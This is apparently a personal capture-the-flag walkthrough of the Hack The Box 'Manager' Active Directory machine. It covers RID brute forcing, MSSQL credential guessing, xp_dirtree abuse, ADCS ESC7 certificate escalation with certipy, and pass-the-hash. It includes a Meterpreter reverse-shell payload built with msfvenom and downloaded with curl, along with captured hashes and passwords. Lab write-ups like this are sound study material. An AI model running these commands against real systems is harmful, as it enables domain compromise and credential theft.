


Seasonal
Discovery
nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.236
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Manager
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-10-23 01:36:01Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-23T01:37:35+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after: 2024-07-29T13:51:28
| MD5: 8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after: 2024-07-29T13:51:28
| MD5: 8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2023-10-23T01:37:36+00:00; +7h00m01s from scanner time.
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info:
| 10.10.11.236:1433:
| Target_Name: MANAGER
| NetBIOS_Domain_Name: MANAGER
| NetBIOS_Computer_Name: DC01
| DNS_Domain_Name: manager.htb
| DNS_Computer_Name: dc01.manager.htb
| DNS_Tree_Name: manager.htb
|_ Product_Version: 10.0.17763
| ms-sql-info:
| 10.10.11.236:1433:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
|_ssl-date: 2023-10-23T01:37:35+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-22T04:21:27
| Not valid after: 2053-10-22T04:21:27
| MD5: 8a13:026b:0c19:b651:225d:9cbd:2b48:675e
|_SHA-1: fb7d:515f:671f:be45:a835:704f:646d:74e9:b366:ba8a
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-23T01:37:35+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after: 2024-07-29T13:51:28
| MD5: 8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-23T01:37:36+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after: 2024-07-29T13:51:28
| MD5: 8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
49681/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49682/tcp open msrpc Microsoft Windows RPC
49685/tcp open msrpc Microsoft Windows RPC
49716/tcp open msrpc Microsoft Windows RPC
54568/tcp open tcpwrapped
59307/tcp open msrpc Microsoft Windows RPC
Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2023-10-23T01:36:56
|_ start_date: N/A
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)smb
smbclient -N -L \\\\10.10.11.236
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server shareTry anonymous access → smbclient //10.10.11.236/SYSVOL -U "" -N → nope
ldap
base search:
ldapsearch -H ldap://10.10.11.236 -x -s base '' "(objectClass=*)" "*" +
rootDomainNamingContext: DC=manager,DC=htb
ldapServiceName: manager.htb:dc01$@MANAGER.HTB
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
...
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=manager,DC=htb
serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configur
ation,DC=manager,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=manager,DC=htb
namingContexts: DC=manager,DC=htb
namingContexts: CN=Configuration,DC=manager,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=manager,DC=htb
namingContexts: DC=DomainDnsZones,DC=manager,DC=htb
namingContexts: DC=ForestDnsZones,DC=manager,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 136415
dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
CN=Sites,CN=Configuration,DC=manager,DC=htb
dnsHostName: dc01.manager.htb
defaultNamingContext: DC=manager,DC=htb
currentTime: 20231023014502.0Z
configurationNamingContext: CN=Configuration,DC=manager,DC=htb
..Try null bind:
ldapsearch -H ldap://10.10.11.236:3269 -x -b DC=manager,DC=htb
→ nope
rpc
rpcclient -U "" 10.10.11.236
rpcclient $> enumdomgroups
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> lsaenumsid
found 23 SIDs
S-1-5-90-0
S-1-5-9
S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
S-1-5-80-592940576-1656185091-296729330-4026955537-2205062631
S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133
S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420
S-1-5-80-1985561900-798682989-2213159822-1904180398-3434236965
S-1-5-80-0
S-1-5-6
S-1-5-32-568
S-1-5-32-559
S-1-5-32-554
S-1-5-32-551
S-1-5-32-550
S-1-5-32-549
S-1-5-32-548
S-1-5-32-545
S-1-5-32-544
S-1-5-21-4078382237-1492182817-2568127209-1103
S-1-5-20
S-1-5-19
S-1-5-11
S-1-1-0
rpcclient $> lsaquery
Domain Name: MANAGER
Domain Sid: S-1-5-21-4078382237-1492182817-2568127209Brute force RIDs
Script:
#!/bin/bash
sid="S-1-5-21-4078382237-1492182817-2568127209"
for i in `seq 500 1500`; do
rpcclient -U "" --password="" -c "lookupsids $sid-$i;quit" 10.10.11.236 | grep -v "unknown"
doneOutput:
S-1-5-21-4078382237-1492182817-2568127209-500 MANAGER\Administrator (1)
S-1-5-21-4078382237-1492182817-2568127209-501 MANAGER\Guest (1)
S-1-5-21-4078382237-1492182817-2568127209-502 MANAGER\krbtgt (1)
S-1-5-21-4078382237-1492182817-2568127209-512 MANAGER\Domain Admins (2)
S-1-5-21-4078382237-1492182817-2568127209-513 MANAGER\Domain Users (2)
S-1-5-21-4078382237-1492182817-2568127209-514 MANAGER\Domain Guests (2)
S-1-5-21-4078382237-1492182817-2568127209-515 MANAGER\Domain Computers (2)
S-1-5-21-4078382237-1492182817-2568127209-516 MANAGER\Domain Controllers (2)
S-1-5-21-4078382237-1492182817-2568127209-517 MANAGER\Cert Publishers (4)
S-1-5-21-4078382237-1492182817-2568127209-518 MANAGER\Schema Admins (2)
S-1-5-21-4078382237-1492182817-2568127209-519 MANAGER\Enterprise Admins (2)
S-1-5-21-4078382237-1492182817-2568127209-520 MANAGER\Group Policy Creator Owners (2)
S-1-5-21-4078382237-1492182817-2568127209-521 MANAGER\Read-only Domain Controllers (2)
S-1-5-21-4078382237-1492182817-2568127209-522 MANAGER\Cloneable Domain Controllers (2)
S-1-5-21-4078382237-1492182817-2568127209-525 MANAGER\Protected Users (2)
S-1-5-21-4078382237-1492182817-2568127209-526 MANAGER\Key Admins (2)
S-1-5-21-4078382237-1492182817-2568127209-527 MANAGER\Enterprise Key Admins (2)
S-1-5-21-4078382237-1492182817-2568127209-553 MANAGER\RAS and IAS Servers (4)
S-1-5-21-4078382237-1492182817-2568127209-571 MANAGER\Allowed RODC Password Replication Group (4)
S-1-5-21-4078382237-1492182817-2568127209-572 MANAGER\Denied RODC Password Replication Group (4)
S-1-5-21-4078382237-1492182817-2568127209-1000 MANAGER\DC01$ (1)
S-1-5-21-4078382237-1492182817-2568127209-1101 MANAGER\DnsAdmins (4)
S-1-5-21-4078382237-1492182817-2568127209-1102 MANAGER\DnsUpdateProxy (2)
S-1-5-21-4078382237-1492182817-2568127209-1103 MANAGER\SQLServer2005SQLBrowserUser$DC01 (4)
S-1-5-21-4078382237-1492182817-2568127209-1113 MANAGER\Zhong (1)
S-1-5-21-4078382237-1492182817-2568127209-1114 MANAGER\Cheng (1)
S-1-5-21-4078382237-1492182817-2568127209-1115 MANAGER\Ryan (1)
S-1-5-21-4078382237-1492182817-2568127209-1116 MANAGER\Raven (1)
S-1-5-21-4078382237-1492182817-2568127209-1117 MANAGER\JinWoo (1)
S-1-5-21-4078382237-1492182817-2568127209-1118 MANAGER\ChinHae (1)
S-1-5-21-4078382237-1492182817-2568127209-1119 MANAGER\Operator (1)web
Static website:
gobuster dir -e -u http://10.10.11.236// -w /home/parallels/Downloads/directory-list-2.3-big.txt -b 400-600 -t 50 -x html,php
http://10.10.11.236//index.html (Status: 200) [Size: 18203]
http://10.10.11.236//images (Status: 301) [Size: 150] [--> http://10.10.11.236/images/]
http://10.10.11.236//contact.html (Status: 200) [Size: 5317]
http://10.10.11.236//about.html (Status: 200) [Size: 5386]
http://10.10.11.236//Images (Status: 301) [Size: 150] [--> http://10.10.11.236/Images/]Trying bruteforce/guessing
- SMB:
snap/bin/crackmapexec smb 10.10.11.236 -u /home/parallels/Desktop/users.txt -p /home/parallels/Desktop/output.txtSMB 10.10.11.236 445 DC01 [+] manager.htb\SQLServer2005SQLBrowserUser$DC01:123456→ False positive?
- MSSQL:
/snap/bin/crackmapexec mssql 10.10.11.236 -u 'operator' -p 'operator’
MSSQL 10.10.11.236 1433 DC01 [+] manager.htb\operator:operatorMssql
sqsh -S 10.10.11.236 -U manager.htb\\Operator -P operator
mssqlclient.py -windows-auth manager.htb/operator:operator@10.10.11.236
→ works 🙂
Abusing xp_dirtree
xp_dirtee: This extended and undocumented stored procedure can be used to list all folders and subfolders (recursively) from a given directory.
- Login to mssql db using impacket mssqlclient.py
mssqlclient.py -windows-auth manager.htb/operator:operator@10.10.11.236 - Start responder
sudo python3 Responder.py -I tun0 - Using xp_dirtree → smb authentication to capture NTLM credentials
xp_dirtree \\10.10.16.6\test - Check responder
[SMB] NTLMv2-SSP Client : 10.10.11.236 [SMB] NTLMv2-SSP Username : MANAGER\DC01$ [SMB] NTLMv2-SSP Hash : DC01$::MANAGER:a0a08fab4ed1c38c:B0D304B18189422DA61A77B6088863E9:010100000000000080C26115EC05DA010AFEDE7B5097542200000000020008004A0031004400370001001E00570049004E002D0053005900540054004B0059005900500053004500430004003400570049004E002D0053005900540054004B005900590050005300450043002E004A003100440037002E004C004F00430041004C00030014004A003100440037002E004C004F00430041004C00050014004A003100440037002E004C004F00430041004C000700080080C26115EC05DA0106000400020000000800300030000000000000000000000000300000610581B32539F702AEBD8FD11F3AD1A25AE2E2BE1060D7D3CDC3001E101FF6780A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E0036000000000000000000 - Crack with hashcat → Not cracked 😟
hashcat -m 5600 ../Desktop/kak.txt /home/parallels/Desktop/Parallels\ Shared\ Folders/Home/Desktop/Pentesting\ tools/Wordlists/weakpass_3 - ntlmrelayx → Signing is required 😕
War Room - Despite being a veteran protocol, New Technology Lan Manager (NTLM) remains one of the most common authentication protocols used in Windows environments. Even though Kerberos offers enhanced security features over NTLM, many systems and functions still depend on NTLM, making it impossible for most organizations to move away from it entirely.
sudo ntlmrelayx.py -tf targets -smb2support -socks xp_dirtree \\10.10.16.6\test [*] SMBD-Thread-9 (process_request_thread): Connection from MANAGER/DC01$@10.10.11.236 controlled, attacking target smb://10.10.11.236 [-] Signing is required, attack won't work unless using -remove-target / --remove-mic [-] Authenticating against smb://10.10.11.236 as MANAGER/DC01$ FAILED👾 Breachforums TIP: “grabbing that hash and trying to crack is does not lead anywhere and it is not required. There is a special stored procedure that lets you traverse the filesystem via MSSQL. Use that to explore an attack surface you thought wasn't exploitable.”
- Found something interesting →
\inetpub\wwwroot\website-backup-27-07-23-old.zip
→ Download it via the browser, as it is the site thats running
- Found password in the zip file in
.old-conf.xml- raven@manager.htb
- R4v3nBe5tD3veloP3r!123
8. Login with credentials
/snap/bin/crackmapexec winrm 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
SMB 10.10.11.236 5985 DC01 [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
HTTP 10.10.11.236 5985 DC01 [*] http://10.10.11.236:5985/wsman
HTTP 10.10.11.236 5985 DC01 [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'Flag → 10a62cc95fec36f43d9019a64b5b790b
Priv escalation
Winpeas:
groups
Current user: Raven
Current groups: Domain Users, Everyone, Builtin\Remote Management Users, Users, Builtin\Pre-Windows 2000 Compatible Access, Builtin\Certificate Service DCOM Access, Network, Authenticated Users, This Organization, NTLM AuthenticationToken privs
SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLEDEnum4Linux:
Shares
[+] Attempting to map shares on 10.10.11.236
//10.10.11.236/ADMIN$ Mapping: DENIED Listing: N/A Writing: N/A
//10.10.11.236/C$ Mapping: DENIED Listing: N/A Writing: N/A
[E] Can't understand response:
NT_STATUS_NO_SUCH_FILE listing \*
//10.10.11.236/IPC$ Mapping: N/A Listing: N/A Writing: N/A
//10.10.11.236/NETLOGON Mapping: OK Listing: OK Writing: N/A
//10.10.11.236/SYSVOL Mapping: OK Listing: OK Writing: N/ACertify:
output
[*] Listing info about the Enterprise CA 'manager-DC01-CA'
Enterprise CA Name : manager-DC01-CA
DNS Hostname : dc01.manager.htb
FullName : dc01.manager.htb\manager-DC01-CA
Flags : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
Cert SubjectName : CN=manager-DC01-CA, DC=manager, DC=htb
Cert Thumbprint : ACE850A2892B1614526F7F2151EE76E752415023
Cert Serial : 5150CE6EC048749448C7390A52F264BB
Cert Start Date : 7/27/2023 3:21:05 AM
Cert End Date : 7/27/2122 3:31:04 AM
Cert Chain : CN=manager-DC01-CA,DC=manager,DC=htb
UserSpecifiedSAN : Disabled
CA Permissions :
Owner: BUILTIN\Administrators S-1-5-32-544
Access Rights Principal
Deny ManageCA, Read MANAGER\Operator S-1-5-21-4078382237-1492182817-2568127209-1119
Allow Enroll NT AUTHORITY\Authenticated UsersS-1-5-11
Allow ManageCA, ManageCertificates BUILTIN\Administrators S-1-5-32-544
Allow ManageCA, ManageCertificates MANAGER\Domain Admins S-1-5-21-4078382237-1492182817-2568127209-512
Allow ManageCA, ManageCertificates MANAGER\Enterprise Admins S-1-5-21-4078382237-1492182817-2568127209-519
Allow ManageCA, Enroll MANAGER\Raven S-1-5-21-4078382237-1492182817-2568127209-1116
Allow Enroll MANAGER\Operator S-1-5-21-4078382237-1492182817-2568127209-1119
Enrollment Agent Restrictions : None
[+] No Vulnerable Certificates Templates found!Allow ManageCA, Enroll MANAGER\Raven
Meterpreter shell:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f exe > shell-x64.exe
curl http://10.10.16.6:88/shell-x64.exe -o shell-x64.exe
.\shell-x64.exeVulnerable Certificate Authority Access Control - ESC7
This attack works because users with "Manage CA" and "Manage Certificates" rights can request certificates that are initially rejected. The SubCA certificate template has a vulnerability (ESC1), but only administrators can use it. So, a regular user can ask to use the SubCA template, get denied, but then have an admin approve it.
- granting ourselves the Manage Certificates access
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 [*] Successfully added officer 'Raven' on 'manager-DC01-CA' - Enable SubCA
certipy-ad ca -ca 'manager-DC01-CA' -u raven@cmanager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -enable-template 'SubCA' [*] Successfully enabled 'SubCA' on 'manager-DC01-CA' - This request will be denied, but we will save the private key and note down the request ID
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target 10.10.11.236 -template SubCA -upn administrator@manager.htb [*] Requesting certificate via RPC [-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate. [*] Request ID is 13 Would you like to save the private key? (y/N) y [*] Saved private key to 13.key [-] Failed to request certificate - we can then issue the failed certificate request
certipy-ad ca -ca 'manager-DC01-CA' -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -issue-request 27 [*] Successfully issued certificate - And finally, we can retrieve the issued certificate
certipy-ad req -ca manager-DC01-CA -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -target 10.10.11.236 -retrieve 2
[*] Rerieving certificate with ID 27
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '27.key'
[*] Saved certificate and private key to 'administrator.pfxTGT
- using certipy-ad to get TGT
certipy-ad auth -pfx /home/parallels/Desktop/HTB/Manager/administrator.pfx -dc-ip 10.10.11.236 -username 'administrator' -domain 'manager.htb' Certipy v4.7.0 - by Oliver Lyak (ly4k) [*] Using principal: administrator@manager.htb [*] Trying to get TGT... [-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) - KRB_AP_ERR_SKEW(Clock skew too great) → we need to sync with the NTP service running on the DC
sudo ntpdate 10.10.11.236 - Try again
certipy-ad auth -pfx /home/parallels/Desktop/HTB/Manager/administrator.pfx -dc-ip 10.10.11.236 -username 'administrator' -domain 'manager.htb'
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924efadministrator:ae5064c2f62317332c88629e025924ef
Pth
evilwinrm:
evil-winrm -i 10.10.11.236 -u administrator -H 'ae5064c2f62317332c88629e025924ef'Found flag → 07346dd6590fe33321332ddf38e9d02a